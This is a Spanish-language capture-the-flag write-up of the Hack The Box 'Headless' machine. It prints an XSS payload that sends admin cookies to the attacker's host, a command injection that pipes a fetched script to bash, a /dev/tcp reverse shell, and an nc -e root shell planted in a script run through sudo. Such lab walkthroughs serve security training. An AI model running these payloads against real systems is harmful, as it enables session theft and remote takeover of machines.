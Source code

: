 ```yaml
---
title: Headless
description: Headless es una máquina Linux de dificultad fácil que cuenta con un servidor Python Werkzeug que aloja un sitio web. El sitio web tiene un formulario de soporte al cliente, el cual resulta ser vulnerable a blind Cross-Site Scripting (XSS) a través del encabezado User-Agent. Esta vulnerabilidad se utiliza para robar una cookie de administrador, que luego se usa para acceder al panel de administración. La página es vulnerable a inyecciones de comandos, lo que permite obtener un shell inverso en la máquina. Al enumerar el correo del usuario, se descubre un script que no utiliza rutas absolutas, lo cual se aprovecha para obtener un shell con privilegios de root.
date: 2024-05-23
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-headless/headless_logo.png
categories:
  - Hack The Box
  - Machines
tags:
  - linux
  - hack the box
  - xss
  - os command injection
  - sudo abuse
  - ssh
  - upnp
  - tcp
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/headless:-$ sudo nmap -sC -sV -p- 10.10.11.8
```

![](/assets/img/htb-writeup-headless/headless1.png)

```terminal
/home/kali/Documents/htb/machines/headless:-$ echo '10.10.11.8\theadless.htb' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/headless:-$ gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt
/dashboard (Status: 500) [Size:  265]
/support   (Status: 200) [Size: 2363]
```
---
## Web Analysis & Vulnerability Exploitation

![](/assets/img/htb-writeup-headless/headless1_1.png)
![](/assets/img/htb-writeup-headless/headless2.png)
![](/assets/img/htb-writeup-headless/headless3.png)
![](/assets/img/htb-writeup-headless/headless4.png)

La web presenta una vulnerabilidad de Cross-Site Scripting (XSS). Aprovechando esta vulnerabilidad, puedo robar una cookie que me permitiría autenticarme como un usuario autorizado.

Para explotar esta vulnerabilidad, intercepto una petición 'POST' del formulario ubicado en la dirección '/support'. Luego, configuro un servidor para recibir la cookie robada.
```terminal
/home/kali/Documents/htb/machines/headless:-$ python3 -m http.server 8003 
	Serving HTTP on 0.0.0.0 port 8003 http://0.0.0.0:8003/ ...
```
El ataque XSS tiene dos partes principales.

* Inyección de un script en el encabezado 'User-Agent' para robar cookies.

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.16.59:8003/?cookie="+btoa(document.cookie);</script>
```

* Inyección del mismo script en un campo de formulario 'Contact Support' para robar cookies cuando se visualiza el contenido del mensaje.

```
fname=ad&lname=min&email=ad%http://40min.com/&phone=%2B55-555+5555&message=<script>var i=new Image(); i.src="http://10.10.16.59:8003/?cookie="+btoa(document.cookie);</script>
```

![](/assets/img/htb-writeup-headless/headless5.png)

```terminal
	... 10.10.11.8 - - [22/May/2024 19:36:24]
"GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
Recibo la cookie en base64 y la descodifico.
```terminal
/home/kali/Documents/htb/machines/headless:-$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d 
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Intercepto una peticion 'GET' de la direccion '/dashboard', agrrego la nueva cookie y devuelvo la peticcion.

![](/assets/img/htb-writeup-headless/headless6.png)

Consigo autentificarme exitosamente.

![](/assets/img/htb-writeup-headless/headless7.png)

Analizando la peticion 'POST', encuentro que es vulnerable a OS Command Injection.

Creo una reverse shell y monto un servidor para que la maquina victima descarge el payload.
```terminal
/home/kali/Documents/htb/machines/headless:-$ echo "/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.59/4444 0>&1'" > payload.sh

/home/kali/Documents/htb/machines/headless:-$ python3 -m http.server 8001
	Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```
Me pongo en escucha con Netcat e injecto el comando malisioso por Burpsuite.
```terminal
/home/kali/Documents/htb/machines/headless:-$ nc -nvlp 4444 
	listening on [any] 4444 ...
```

![](/assets/img/htb-writeup-headless/headless8.png)

```terminal
date=2023-09-15;curl http://10.10.16.59:8001/payload.sh%7Cbash > Send

 	...connect to [10.10.16.59] from (UNKNOWN) [10.10.11.8] 39442 

dvir@headless:~$ cat user.txt 
```

---
## Privilege Escalation

El usuiario 'dvir' puede ejecutar el comnado '/usr/bin/syscheck' como 'sudo'.

```terminal
dvir@headless:~$ sudo -l
```

![](/assets/img/htb-writeup-headless/headless9.png)

El comando '/usr/bin/syscheck' ejecuta el archivo 'initdb.sh'. Por tanto, puedo agregar un payload dentro del archivo 'initdb.sh'.

```terminal
dvir@headless:~$ cat /usr/bin/syscheck
```

![](/assets/img/htb-writeup-headless/headless10.png)

```terminal
dvir@headless:~$ echo "nc -e /bin/sh 10.10.16.59 1212" > initdb.sh
dvir@headless:~$ chmod +x initdb.sh
```
Agrego permisos de ejecucion, me pongo en escucha con Netcat y ejecuto el comando.
```terminal
/home/kali/Documents/htb/machines/headless:-$ nc -nvlp 1212
dvir@headless:~$ sudo /usr/bin/syscheck
```

![](/assets/img/htb-writeup-headless/headless11.png)

> <a href="https://www.hackthebox.com/achievement/machine/1521382/594" target="_blank">Headless Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }